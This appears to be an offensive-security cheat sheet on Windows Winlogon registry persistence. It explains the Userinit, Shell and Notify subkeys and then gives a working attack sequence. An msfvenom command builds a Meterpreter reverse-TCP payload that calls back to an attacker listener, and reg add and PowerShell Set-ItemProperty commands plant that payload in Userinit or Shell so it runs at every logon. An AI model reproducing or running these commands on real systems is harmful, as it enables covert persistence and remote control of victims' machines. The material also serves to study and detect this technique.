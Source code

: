     -   Winlogon.exe is a Windows component responsible for actions at logon/logoff and for user authorization and Windows activation checks  as well as the secure attention sequence (SAS) triggered by Ctrl-Alt-Delete  are used to notify event  handles when SAS happens and loads a DLL. This DLL can be   edited to launch whenever such SAS event occurs  (runs in the background.)  You can't disable this process. It's a crucial part of Windows and must be running at all times.

    -   **Registry subkeys**

        -   HKCU\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Userinit   

            -   \# normal user persistence

        -   HKCU\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify   

            -    \# normal user persistence

        -   HKCU\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\shell     

            -    \# normal user persistence

        -    HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Userinit 

            -    \# admin or system persistence

        -   HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify    

            -   \# admin or system persistence

        -   HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\shell     

            -    \# admin or system persistence

    -   **Components explanation**

        -   Winlogon\\Notify - points to notification package DLLs that handle Winlogon events

        -   Winlogon\\Userinit - points to userinit.exe, the user initialization program executed when a user logs on

        -   Winlogon\\Shell - points to explorer.exe, the system shell executed when a user logs on

        -   Winlogon process uses the value specified in the Userinit key to launch login scripts etc. Usually, userinit key points to userinit.exe but if this key can be altered, then that exe will also launch by Winlogon.

    -   **Exploiting winlogon**

        -   **Generate a payload**

        -   msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.10.10 LPORT=4444 -f exe \> payload.exe

        -   **we can exploit the userinit subkey or shell subkey both will work**

        -   reg add \"HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\" /v Userinit /d \"Userinit.exe, c:\\\\payload.exe\" /t reg\_sz /f

        -   reg add \"HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\" /v Shell /d \"explorer.exe, c:\\\\payload.exe\" /t reg\_sz /f

        -   **set registry subkeys with powershell  **

        -   Set-ItemProperty \"HKLM:\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\\" \"Userinit\" \"Userinit.exe, evilbinary.exe\" -Force
